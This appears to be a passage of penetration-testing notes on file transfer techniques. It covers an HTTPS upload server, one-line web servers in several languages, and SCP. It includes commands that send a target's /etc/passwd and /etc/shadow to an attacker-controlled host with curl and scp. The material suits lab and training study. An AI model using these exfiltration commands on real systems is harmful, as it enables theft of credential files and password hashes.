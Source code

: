 ### Web Upload via uploadserver (HTTPS)

Install `uploadserver` and create self-signed cert:
```bash
sudo python3 -m pip install --user uploadserver
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

Upload multiple files from target:
```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

---

### Mini Web Servers (Python / PHP / Ruby)

Quickly host files for download:

```bash
# Python3
python3 -m http.server

# Python2
python2.7 -m SimpleHTTPServer

# PHP
php -S 0.0.0.0:8000

# Ruby
ruby -run -ehttpd . -p8000
```

Then on attacker:
```bash
wget http://<target_ip>:8000/filetotransfer.txt
```

> Ensure inbound firewall/ACLs allow connections.

---

### SCP Upload

If SSH outbound allowed, upload using `scp`:

```bash
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

---
